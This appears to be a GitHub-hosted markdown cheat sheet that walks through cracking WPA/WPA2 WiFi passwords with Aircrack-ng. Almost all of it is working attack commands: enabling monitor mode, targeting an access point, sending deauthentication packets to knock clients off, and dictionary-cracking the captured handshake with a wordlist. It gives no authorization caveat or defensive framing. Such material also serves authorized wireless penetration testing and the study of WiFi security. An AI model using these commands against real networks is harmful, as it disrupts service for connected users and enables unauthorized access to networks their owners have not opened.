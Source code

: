 # WiFi Cracking Cheat Sheet

A step-by-step guide for capturing WPA/WPA2 handshakes and cracking WiFi passwords using the Aircrack-ng suite.

---

## 1. Interface Setup with Airmon-ng

```bash
sudo airmon-ng           # List wireless interfaces
sudo airmon-ng check kill  # Kill processes that might interfere
sudo airmon-ng start <interface>  # Enable monitor mode (creates <interface>mon)
```

---

## 2. Scanning Networks with Airodump-ng

```bash
sudo airodump-ng <interface>mon  # Show all available networks
```

To focus on a specific network and capture handshakes:
```bash
sudo airodump-ng -c <channel> --bssid <AP_MAC> -w <capture_file> <interface>mon
```
- `<channel>`: Channel of the target AP
- `<AP_MAC>`: BSSID (MAC address) of the access point
- `<capture_file>`: Output file for handshake

---

## 3. Forcing Handshake Capture with Aireplay-ng

Send deauthentication packets to force clients to reconnect (and capture handshake):

```bash
sudo aireplay-ng -0 <num_deauths> -a <AP_MAC> -c <client_MAC> <interface>mon
```
- `-0`: Deauth attack
- `<num_deauths>`: Number of deauth packets (e.g., 10)
- `<AP_MAC>`: BSSID of the AP
- `<client_MAC>`: MAC of a connected client (optional, omit to target all)
- `<interface>mon`: Monitor mode interface

---

## 4. Cracking the Handshake with Aircrack-ng

```bash
sudo aircrack-ng -b <AP_MAC> -w <wordlist> <capture_file>.cap
```
- `-b`: BSSID of the AP
- `-w`: Path to password wordlist (e.g., `/usr/share/wordlists/rockyou.txt`)
- `<capture_file>.cap`: Capture file from airodump-ng

---

## Tips

- Use a good wordlist, e.g., `/usr/share/wordlists/rockyou.txt` or SecLists.
- Make sure your wireless card supports monitor mode and packet injection.
- You can use `hcxpcaptool` and `hashcat` for faster GPU-based cracking.

---

## References

- [airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)